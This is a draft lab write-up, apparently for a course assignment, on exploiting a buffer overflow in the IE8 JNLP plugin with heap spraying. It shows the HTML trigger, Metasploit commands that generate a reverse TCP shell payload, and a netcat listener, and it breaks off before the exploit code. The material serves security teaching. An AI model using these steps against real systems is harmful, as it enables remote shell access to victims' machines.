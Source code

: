 # Exploiting a Buffer Overflow Vulnerability in the JNLP plugin within Internet Explorer 8 with using the Heap Spraying Technique

** This is still a draft **

JNLP (Java Network Launch Protocol) enables an application to be launched on a client desktop using resources that are hosted on a remote server. A specific version of JNLP for IE8 is vulnerable to a stack-based buffer overflow: when the plugin is invoked with a *launchjnlp* parameter, it will copy the value of the *docbase* parameter to a stack buffer using `sprintf`, but fails to check the length of the value. 

The vulnerability can be triggered by the following:
```html
<object type='application/x-java-applet'>
<param name='launchjnlp' value='1'>
<param name='docbase' value='AAAAAAAA....AAAAAA'>
</object>
```

## Goal

To demonstrate this vulnerability, a simple web server is set up to listen on port 8080. This web server shows the contents of a specific directory in which the html file (containing the exploit) is located. The html file is clicked from the client and nothing appears to happen, but the truth is that the heap is sprayed with a shellcode! It is not until the client clicks on *Click Me* that at least one the shellcodes in the heap gets executed. This shellcode consists of several NOP operations and a reversed TCP connection to a chosen IP and port. The port used is *6666*, and to simplifly the assignment's grading, the chosen IP is 127.0.0.1, which means that the command prompt will be obtained in the client instead of in the attacker's machine (or Kali, in this case).

## Specifics

1. Two machines are used to demonstrate this vulnerability. A Windows 7 VM (with DEP disabled) acts as the client, and a Kali Linux VM acts as the web server.

2. A Windows shellcode is generated with Metasploit, which is a tool already installed in Kali Linux. The instructions in this shellcode create a reverse TCP connection from said Windows machine to a chosen IP and port. In other words, these instructions would spawn the victim's command prompt in the attacker's machine; but for practicality, the IP chosen as the attacker's IP does not belong to the attacker and it is the victim's machine, 127.0.0.1. Using the attacker's IP will make the demo realistic, but it will not make it easy to the grader of this assignment.

The shellcode is generated as follows:

`msfconsole`

`use payload/windows/shell_reverse_tcp`

`set LHOST 127.0.0.1`

`set LPORT 6666`

`generate -t js_le`

In the last command, **js_le** was used because a JavaScript shellcode is needed and the Windows machine that is targeted uses Little Endian (le).

3. To accept this reverse TCP connection in Windows, the following netcat command is needed:

`nc -l -p 6666`

**-l** specifies that nc should listen for an incoming connection, and **-p** specifies the source port.

4. Windows debugger, WinDBG, is helpful to visualize the stack and heap contents and gather information for the exploit.

5. 


